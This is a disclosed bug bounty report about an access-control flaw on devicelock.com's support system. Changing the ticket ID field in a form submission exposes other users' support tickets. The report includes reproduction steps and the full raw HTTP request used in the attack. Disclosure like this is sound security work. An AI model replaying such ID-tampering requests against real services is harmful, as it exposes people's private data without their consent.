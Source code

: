 # Attacker Can Access to any Ticket Support on https://www.devicelock.com/support/

## Report Details
- **Report ID**: 1124974
- **URL**: https://hackerone.com/reports/1124974
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-03-13T13:41:01.714Z
- **Disclosed**: 2022-02-08T09:10:02.144Z

## Reporter
- **Username**: h4x0r_dz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
## Summary

Hello team.

I found A security issue on devicelock.com where the attacker can access to any Ticket support and real all the information that The users sent to the support. and this without user interaction.

In other words: **an attacker can have full access to users Ticket using `Ticket id` only .**
 


## Steps To Reproduce

to Reproduce This bug you need to accounts, one for the attacker and the other for the victim.

  1. in the victim account go to https://www.devicelock.com/bitrix/admin/ticket_edit.php?lang=en and add a new ticket. now, this ticket has an **ID** Copy this id.
  2. go to https://www.devicelock.com/support/ticket_edit.html?ID=0 and put anything on Subject&Message. 
now make intercept on and click on ***Save***. and change the **Content-Disposition: form-data; name="ID"** value to the victim id ticket .


### vulnerable Request : `ID` parameter 
 ```
POST /support/ticket_edit.html?ID=0 HTTP/1.1
Host: www.devicelock.com
Connection: close
Content-Length: 1505
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://www.devicelock.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEbeDU0DJhrnLl8U7
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://www.devicelock.com/support/ticket_edit.html?ID=38173
Accept-Encoding: gzip, deflate
Accept-Language: ar,en-US;q=0.9,en;q=0.8
Cookie: <attacker_Cookie>

------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="sessid"

<sessid_attacker>
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="set_default"

Y
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="ID"

<victim_id>
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="lang"

en
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="TITLE"

anything
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="MESSAGE"

anything
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="MAX_FILE_SIZE"

3072000
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="FILE_0"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="FILE_1"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="FILE_2"; filename=""
Content-Type: application/octet-stream


------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="files_counter"

2
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="apply"

Apply
------WebKitFormBoundaryEbeDU0DJhrnLl8U7
Content-Disposition: form-data; name="apply"

Y
------WebKitFormBoundaryEbeDU0DJhrnLl8U7--

```

now in the response, you can see the victim ticket information.

### POC 

{F1228906}

## Impact

an attacker can access all user's tickets without user interaction.

## Attachments
- 2021-03-13_14-34-03.mp4
